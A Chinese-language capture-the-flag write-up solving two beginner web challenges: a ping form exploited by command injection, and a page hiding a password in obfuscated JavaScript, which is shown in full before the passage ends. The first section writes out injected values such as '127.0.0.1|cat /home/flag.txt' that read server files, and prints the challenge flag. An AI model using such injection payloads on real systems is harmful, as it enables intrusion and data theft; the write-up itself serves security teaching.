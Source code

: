 # command_execution
## 题目
&emsp;&emsp;难度系数： 2.0   
&emsp;&emsp;题目来源： Cyberpeace-n3k0  
&emsp;&emsp;题目描述：小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。
## 解答
&emsp;&emsp;网站只有一个ping输入框，考虑可以用ping并带其他命令的方式来执行，执行`127.0.0.1|find / -name "flag.*"`搜索服务器本地的flag文件。

>ping -c 3 127.0.0.1|find / -name "flag.*"  
/home/flag.txt

&emsp;&emsp;然后访问这个文件，`127.0.0.1|cat /home/flag.txt`，得到答案：`cyberpeace{c72bd8829fd9cab078eff060ffc63713}`。

# simple_js
## 题目
&emsp;&emsp;难度系数： 3.0  
&emsp;&emsp;题目来源： root-me  
&emsp;&emsp;题目描述：小宁发现了一个网页，但却一直输不对密码。(Flag格式为 Cyberpeace{xxxxxxxxx} )  
## 解答
&emsp;&emsp;访问之后发现需要输入密码，根据题目描述考虑可能是有js脚本，F12查看网页源码，发现如下代码：
```js

<html>
<head>
    <title>JS</title>
    <script type="text/javascript">
    function dechiffre(pass_enc){
        var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65";
        var tab  = pass_enc.split(',');
        var tab2 = pass.split(',');
        var i,j,k,l=0,m,n,o,p = "";
        i = 0;
        j = tab.length;
        k = j + (l) + (n=0);
        n = tab2.length;
        for(i = (o=0); i < (k = j = n); i++ ){
            o = tab[i-l];p += String.fromCharCode((o = tab2[i]));
            if(i == 5)break;}
        for(i = (o=0); i < (k = j = n); i++ ){
            o = tab[i-l];
            if(i > 5 && i < k-1)
                p += String.fromCharCode((o = tab2[i]));
        }
        p += String.fromCharCode(tab2[17]);
        pass = p;return pass;
    }
    String["fromCharCode"](dechiffre("\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30"));

    h = window.prompt('Enter password');
    alert( dechiffre(h) );

</script>
</head>

</html>
```